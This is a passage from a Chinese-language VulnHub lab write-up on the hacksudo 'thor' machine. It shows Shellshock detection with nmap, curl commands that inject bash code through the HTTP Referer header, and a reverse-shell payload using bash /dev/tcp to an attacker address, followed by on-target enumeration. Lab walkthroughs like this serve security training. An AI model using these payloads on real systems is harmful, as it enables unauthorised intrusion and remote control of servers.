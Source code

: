 ![](D:\stu\vulnhub\hacksudo靶场\pic-thor\16.jpg)

使用`nmap`中的脚本进行检测，nmap中的一些漏洞检测都是可以的

```shell
nmap -sV -O 192.168.1.54 -p80 --script=http-shellshock --script-args uri=/cgi-bin/backup.cgi,cmd=ls
```



![](D:\stu\vulnhub\hacksudo靶场\pic-thor\17.jpg)

再测试`shell.sh`是否可利用，也是可用的

![](D:\stu\vulnhub\hacksudo靶场\pic-thor\18.jpg)

使用`searchsploit`发现有脚本可用，但是是`msf`中的，这个尽量不依赖`msf`，所以这里另择方法

这里可以利用`curl`这个命令，下面是探测是否可用的方法，不过也是利用方法。

前面使用`nmap`探测时，nmap中有提示，可在`header`中利用，也就是`http`的头中

```shell
curl -v http://192.168.1.54/cgi-bin/shell.sh -H "Referer:() { test; }; echo 'Content-Type: text/plain'; echo; echo; /usr/bin/id;exit"
```

![](D:\stu\vulnhub\hacksudo靶场\pic-thor\19.jpg)

# 漏洞利用

那么这里把`id`命令改成反弹就可以了，或者生成一个`bash`脚本文件，命令解析放在总结

```shell
curl -v http://192.168.1.54/cgi-bin/shell.sh -H "Referer:() { test; }; echo 'Content-Type: text/plain'; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.16/9999 0>&1';exit"
```

![](D:\stu\vulnhub\hacksudo靶场\pic-thor\20.jpg)

# 靶机内信息收集

之前有一个`connect.php`文件，说是连接数据库的，切换到网站目录

![](D:\stu\vulnhub\hacksudo靶场\pic-thor\21.jpg)

查看网络状态

![](D:\stu\vulnhub\hacksudo靶场\pic-thor\22.jpg)

查看备份目录以及有哪些用户

![](D:\stu\vulnhub\hacksudo靶场\pic-thor\23.jpg)

寻找具有SUID权限的文件，发现`sudo`，并且还不需要输入密码就可以使用，不过用户非`root`

